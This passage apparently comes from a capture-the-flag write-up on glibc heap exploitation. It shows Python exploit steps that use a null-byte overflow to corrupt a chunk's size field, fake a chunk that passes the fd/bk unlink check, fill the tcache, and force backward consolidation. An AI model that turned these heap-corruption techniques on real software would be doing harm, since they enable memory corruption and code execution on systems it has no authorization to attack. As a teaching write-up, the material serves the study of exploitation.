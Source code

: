 It needs to have a valid size field, and its `fd/bk` needs to satisfy one of libc mitegaions: `p = p->fd->bk = p->bk->fd`

We provided `fd=bk=fake_chunk_address + 0x10`, so when accessing the `fd/bk` of this address, it will result in the 2 QUADWORDS after that, which are `fake_chunk_address`, and the same thing.

Also, when consolidating backwards, it checks if we have a valid chunk after our chunk, so we need to satisfy that aswell.

```py
do_str(0x38, b'A' * 0x38) # idx=4
do_str(0x148, b'B' * 0xf8 + p64(0x21) + 0x28 * b"A" + p64(0x21)) #size field of this chunk is 0x151

do_tok(4, chr(0x51)) # trigger null byte

do_free(4)
do_str(0x38, b'B' * 0x30 + p64(0x100))


#Fill tcache
for i in range(7):
	do_str(0xf8, 'P')

for i in range(7, -1, -1):
	do_free(5+i)


do_free(3) #free the chunk after our fake chunk. tcache is full, so will consolidate backwards into a one big unsorted bin
```
We firstly allocate a chunk to trigger the nullbyte overflow.
Next, we allocate a chunk of size 0x148. This chunk's size field will be overwritten. 

Then, we call `strtok` with `0x51`, which is the first byte of the next chunk size field (0x48 will be 0x51). this will change the size field of that chunk from 0x151, to 0x100.

Then, we fill up the tcache bin. we don't want the corrupted chunk to be inserted into the tcache bin, because it won't consolidate backwards this way.

Lastly, we free the corrupted chunk, which will consolidate backwards with our fake chunk.

Here is how the heap looks like after the free:

![Alt text](image-1.png)
